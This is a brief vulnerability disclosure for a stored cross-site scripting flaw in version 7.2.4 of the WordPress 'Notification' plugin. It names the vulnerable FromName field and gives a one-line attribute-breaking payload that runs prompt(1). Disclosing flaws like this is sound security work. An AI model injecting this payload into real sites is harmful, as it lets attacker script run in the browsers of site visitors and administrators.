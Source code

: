 # Exploit Title: WrodPress Plugin Notification——Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/notification/
# Version :  V 7.2.4
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Settings》CARRIERS 》FromName ,insert the xss payload "OnMoUsEoVeR=prompt(1)//
![image](https://github.com/BigTiger2020/word-press/blob/main/Notificationgif.gif)  
